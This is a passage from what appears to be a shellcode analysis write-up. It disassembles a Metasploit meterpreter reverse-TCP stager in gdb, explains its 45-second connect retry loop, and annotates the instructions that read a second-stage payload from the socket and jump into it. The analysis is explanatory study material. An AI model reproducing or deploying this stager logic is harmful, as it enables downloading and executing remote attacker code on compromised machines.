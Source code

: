 - 2 times in order to retrieve the value `0x0` and store it into the register `RCX`
- 1 time in order to retrieve the file descriptor of the socket, and store it into the register `RDI`

After that, the shellcode checks whether the return value of `sys_nanosleep` is positive, if so jumping back to `0x4000ac` in order to execute `sys_connect` once again.

If the syscall `sys_nanosleep` returns a signed value (negative one), then the shellcode continues to the address `0x4000e5` to invoke the syscall `sys_exit`.

These operations are performed 9 times, for a total of **45 seconds** in case it can't connect to the `meterpreter` handler.

You can test this by using the shell command `time`:

```bash
time ./shellcode

# real    45.13s
# user    0.00s
# sys     0.00s
# cpu     0%
```

Anyway, let's go back to the address `0x4000c6`.

If the call to `connect` is successful, then the shellcode jumps to the address `0x4000ed`, which points to these instructions:

```bash
0x00000000004000ed in ?? ()
# (gdb) disassemble $rip,+24
# Dump of assembler code from 0x4000ed to 0x400105:
# => 0x00000000004000ed:  pop    rsi
#    0x00000000004000ee:  push   0x7e
#    0x00000000004000f0:  pop    rdx
#    0x00000000004000f1:  syscall 
#    0x00000000004000f3:  test   rax,rax
#    0x00000000004000f6:  js     0x4000e5
#    0x00000000004000f8:  jmp    rsi
#    0x00000000004000fa:  add    BYTE PTR [rax],al
#    0x00000000004000fc:  add    BYTE PTR [rax],al
#    0x00000000004000fe:  add    BYTE PTR [rax],al
#    0x0000000000400100:  add    BYTE PTR [rax],al
#    0x0000000000400102:  add    BYTE PTR [rax],al
#    0x0000000000400104:  add    BYTE PTR [rax],al
```

Follows a short analysis:

```nasm
; get the address of the mapping from the stack
pop    rsi

; store the value 126 into RDX
push   0x7e
pop    rdx

; invoke sys_read (syscall no. 0x0)
syscall

; check if call to sys_read was successful, otherwise jump to sys_exit(1)
test   rax,rax
js     0x4000e5

; jump the shellcode received through sys_read
jmp    rsi
```
